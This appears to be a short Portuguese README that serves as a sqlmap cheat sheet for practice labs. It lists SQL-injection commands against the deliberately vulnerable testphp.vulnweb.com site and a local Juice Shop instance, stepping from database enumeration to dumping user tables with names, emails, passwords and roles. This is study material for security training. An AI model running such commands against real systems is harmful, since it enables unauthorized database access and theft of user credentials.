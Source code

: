 # SQLMap

Site para testes http://testphp.vulnweb.com
```
sqlmap --help
```
```
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs
```
```
sqlmap -u  http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs -D acuart –-tables
```
``` 
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs -D acuart -T users –-columns
```
``` 
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs -D acuart -T users -C name,pass,uname,email –-dump
``` 
Database Schema Juice-Shop
``` 
sqlmap -u "http://localhost:3000/rest/products/search?q=q" --dbms=sqlite --level=3 --risk=3 --technique=B --threads=4 --schema
```
```
sqlmap -u "http://localhost:3000/rest/products/search?q=q" --dbms=sqlite --level=3 --risk=3 --technique=B --threads=4 --tables
```
```
sqlmap -u "http://localhost:3000/rest/products/search?q=q" --dbms=sqlite -D SQLite_masterdb -T Users --dump --threads=4
```
```
sqlmap -u "http://localhost:3000/rest/products/search?q=q" --dbms=sqlite -D SQLite_masterdb -T Users -C email,password,role --dump --threads=4
```
## Fontes:

https://www.100security.com.br/sqlmap

https://github.com/sqlmapproject/sqlmap/wiki/Introduction
